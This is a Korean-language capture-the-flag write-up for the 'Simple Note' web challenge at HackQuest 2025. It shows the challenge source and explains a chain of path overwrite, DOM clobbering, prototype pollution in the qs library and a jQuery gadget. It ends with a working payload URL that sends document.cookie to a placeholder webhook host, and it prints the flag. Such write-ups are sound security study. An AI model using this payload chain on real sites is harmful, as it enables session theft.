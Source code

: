 ```yaml
---
title: 2025 HackQuest [Simple Note] Write-Up
published: 2025-07-22
description: " "
tags: [CTF_Writeup, hackquest, kaist]
category: CTF
draft: false
---
```

카이스트에서 주최한 HackQuest에 참가했고 웹 4문제 중 3문제를 풀었다.  
못 푼 한 문제가 아래에서 설명할 `Simple Note`보다 쉬운 문제였지만 헤메다 풀지 못했다. 

## Simple Note (Web)

```js
app.get('/track', (req, res) => {
  const id = req.query.id
  const p = posts.get(id)
  if (p && p.author !== req.session.user) p.views++
  res.end(p ? 'views:' + p.views : '')
})

app.get('/view', (req, res) => {
  const id = req.query.id
  const p = posts.get(id)
  if (!p) return res.status(404).send('not found')
  res.send(`<!doctype html><html><head><meta charset="utf-8">
    <script src="./config.js"></script>
    <script src="https://code.jquery.com/jquery-3.5.1.js"></script>
    <script src="https://cdn.jsdelivr.net/npm/qs@6.10.2/dist/qs.js"></script>
    </head><body id="main">
    <div id="content">${DOMPurify.sanitize(p.html)}</div>
    <div id="out"></div>
    </body>
    <script>
    let data = {}
    function merge(target, source) {
      for (const key in source) {
        const value = source[key];
        if (value && typeof value === 'object') {
          if (!target[key]) {
            target[key] = {};
          }
          merge(target[key], value);
        } else {
          target[key] = value;
        }
      }
      return target;
    }

    const params = Qs.parse(location.search.slice(1), { 
        depth: window.options.depth ? window.options.depth : 5,
        allowPrototypes: window.options.allowPrototypes ? true : false,
        parameterLimit: window.options.parameterLimit ? window.options.parameterLimit: 5
     })
    merge(data, params)
    $.get('/track?id=', data)
    </script>
    </html>`)
})

app.get('/config.js', (req, res) => {
  res.send(`
  window.options = {}
  window.options.depth = 20;
  window.options.allowPrototypes = false;
  window.options.parameterLimit = 20;  
  `)
})
```

작성한 노트를 그대로 보여주는 서비스이다.
html 삽입은 가능하지만 `DOMPurify.sanitize()` 되어 들어가기에 바로 XSS는 불가능하다.  

qs@6.10.2에 `CVE-2022-24999` Prototype pollution 취약점이 존재하고, `merge()` 함수에서도 pp가 일어난다.
그러나 `allowPrototypes`가 false이기 때문에 바로 Prototype pollution 하는 것 또한 불가능하다.

일단 처음으로 해야할 건 RPO다.
```html
<script src="./config.js"></script>
```
상대 경로로 config.js를 로드하고 있기에 `/view/?id=id` 처럼 뒤에 `/`를 붙이면 config.js의 로드를 막을 수 있다.

어차피 allowPrototypes는 계속 false이다. 여기서 RPO를 일으키는건 window.options가 initialize 되지 않게 하기 위해서다.

window.options가 할당되어 있지 않기에 Dom Clobbering으로 options를 덮어 allowPrototypes를 true로 설정할 수 있다.

```html
<form name="options">
     <input name="allowPrototypes" value="true">
</form>
```

이렇게 Dom Clobbering 페이로드를 작성한다

이제 `Prototype pollution`이 가능해졌다. XSS는 여전히 불가능해보일 수 있지만
여기서 찾은 방법이 `Jquery XSS by prototype pollution` 이다.

`$.get('/track?id=', data)`를 마지막에 사용하기에 XSS를 트리거 할 수 있다.

[레퍼런스](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md)를 약간 변형해서 xss를 성공시켰다

최종 페이로드는 이렇다
```
http://158.247.241.230:10897/view/?id=29f97926-66da-4d01-9a80-b69c6b49da52&[constructor][prototype][url]=data:text/javascript;charset=utf-8,document.location.href='https://webhook/test?q='+%2Bdocument.cookie;//&[constructor][prototype][dataType]=script&[constructor][prototype][crossDomain]=
```

`flag: hackquest2025{caf7088a3562e36cb29876b8dd45a3384f4b0d0533ecc2778234b845693eca03}`